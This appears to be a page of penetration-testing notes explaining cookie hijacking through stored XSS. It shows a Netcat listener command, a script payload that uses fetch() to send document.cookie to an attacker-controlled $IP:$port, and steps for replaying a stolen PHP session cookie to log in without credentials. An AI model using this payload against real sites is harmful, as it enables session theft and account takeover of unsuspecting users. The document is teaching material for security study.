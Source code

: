 # Cookie Hijacking

When the application is vulnerable to XSS, we could try to hijack cookies such as session tokens that are being stored on the client-side.

Here we find an example of this scenario:

* In an accessed session we can go to the _Inspect>Application>Cookies_ tab and check the values that are being stored

{% code title="Example Output" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```
Name               Value                              HttpOnly
...                ...                                ...
PHPIDSESSID        e15df96b271a9729837c2bb206b522c7
...                ...                                ...
```
{% endcode %}

{% hint style="info" %}
* If the `HttpOnly` tag is unmarked, indicates that the cookie can interact with JavaScript code
* `PHPIDSESSID` is the default session cookie on PHP-handled pages
{% endhint %}

***

* In case we don't see it directly, we can assume that is configured this way and try to get the cookie values directly to our host machine. For this, we set up a listener port with [_Netcat_](../../networks/tools-and-utilities.md#netcat)

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
nc -nlvp $port
```
{% endcode %}

***

* We can try to make a cookie hijacking using the Stored XSS vulnerable part

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We fill the form with the payload
<script>fetch("$IP:$port" + document.cookie);</script>
#This will get the information on the cookie values
```
{% endcode %}

{% hint style="info" %}
The `$IP` and `$port` values are from our machine and the port opened with _Netcat_
{% endhint %}

***

* Once we have the cookie value we can go to the website page, go to _Inspect>Application>Cookies_ tab, and set the cookie value manually. After that, we can reload the page to update these values on the browser

```bash
Name               Value                             
...                ...                                
PHPIDSESSID        $hijackedCookie     #We set the cookie obtained   
...                ...
#This will log us into the session we stole without the need for credentials
```
